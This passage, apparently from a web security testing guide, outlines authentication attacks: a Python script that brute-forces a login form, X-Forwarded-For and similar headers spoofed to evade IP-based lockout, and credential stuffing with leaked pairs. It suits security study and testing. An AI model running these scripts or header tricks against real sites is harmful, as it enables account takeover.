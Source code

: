   - **Brute-force vulnerabilities**
    
    - **Simple brute-force attacks**
      - Trying every possible password for a known username
      - Detection: Test if application allows unlimited login attempts
      - Exploitation: Automated tools (Burp Intruder, Hydra) to try password lists
      - Example attack script:
        ```python
        import requests

        username = "identified_user"
        password_list = ["password1", "password2", ...]

        for password in password_list:
            response = requests.post(
                "https://vulnerable-website.com/login",
                data={"username": username, "password": password}
            )
            if "Incorrect password" not in response.text:
                print(f"Valid password found: {password}")
                break
        ```
    
    - **Username and password enumeration**
      - Combining username enumeration with password brute-forcing
      - Detection: Identified username enumeration vulnerability
      - Exploitation: First enumerate valid usernames, then brute-force each user's password
    
    - **Bypassing IP-based brute-force protection**
      - Using multiple IP addresses (proxy services, distributed attacks)
      - Adding custom HTTP headers to spoof IP:
        - X-Forwarded-For
        - X-Remote-IP
        - X-Originating-IP
        - X-Remote-Addr
        - X-Client-IP
      - Example request with spoofed IP:
        ```http
        POST /login HTTP/1.1
        Host: vulnerable-website.com
        X-Forwarded-For: 192.168.0.1
        ...

        username=victim&password=password123
        ```
      - Detection: Test if adding IP-spoofing headers bypasses restrictions
      - Exploitation: Rotate IP values in headers while making login attempts
    
    - **Credential stuffing**
      - Using leaked username/password pairs from other sites
      - Detection: Test known credential pairs from leaked databases
      - Exploitation: Tools like Burp Intruder to test lists of leaked credentials
  
  - **Flawed credential reset**
    